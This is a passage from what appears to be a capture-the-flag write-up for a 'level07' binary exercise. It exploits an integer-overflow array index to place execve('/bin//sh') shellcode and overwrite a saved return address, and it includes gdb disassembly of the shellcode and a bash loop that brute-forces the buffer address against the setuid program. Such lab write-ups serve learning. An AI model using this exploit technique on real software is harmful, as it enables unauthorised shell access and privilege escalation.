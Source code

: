 ```
Index: 5

Number: 2160921520
Index: 1073741830 (1073741824 + 6 = index 6)
```

Let's verify the shellcode

```
(gdb) x/12i 0xffffd554
   0xffffd554:  nop
   0xffffd555:  xor    %eax,%eax
   0xffffd557:  xor    %ecx,%ecx
   0xffffd559:  xor    %edx,%edx
   0xffffd55b:  xor    %edi,%edi
   0xffffd55d:  xor    %esi,%esi
   0xffffd55f:  push   %edx
   0xffffd560:  push   $0x68732f2f
   0xffffd565:  push   $0x6e69622f
   0xffffd56a:  mov    %esp,%ebx
   0xffffd56c:  mov    $0xb,%al
   0xffffd56e:  int    $0x80
```

The shellcode was successfully inserted now we have to convert the return address into a decimal number and store it at index 114

ffffd554 = 4294956372

```
Number: 4294956372
Index: 1073741938 (1073741824 + 114 = index 114)
 Completed store command successfully
Input command: quit
process 1771 is executing new program: /bin/dash
```

The shellcode was successfully executed, now we have to do the same without `gdb` but because of an offset caused by `gdb` we have to find the new buffer address, in general it's located 8, 16 or 32 bytes after the original one

Let's automate this using bash, we will try every address in a range of 256 starting at `gdb`'s
```bash
#!/bin/bash
for i in $(seq 0 256)
do
    rm -f /tmp/pwn07
    touch /tmp/pwn07
    chmod 777 /tmp/pwn07

    echo "store" >> /tmp/pwn07
    echo "834679184" >> /tmp/pwn07
    echo "1073741824" >> /tmp/pwn07

    ...

    echo "store" >> /tmp/pwn07
    echo "$((4294956372 + $i))" >> /tmp/pwn07
    echo "1073741938" >> /tmp/pwn07

    echo "quit" >> /tmp/pwn07

    (cat /tmp/pwn07; cat) | /home/users/level07/level07

done
```
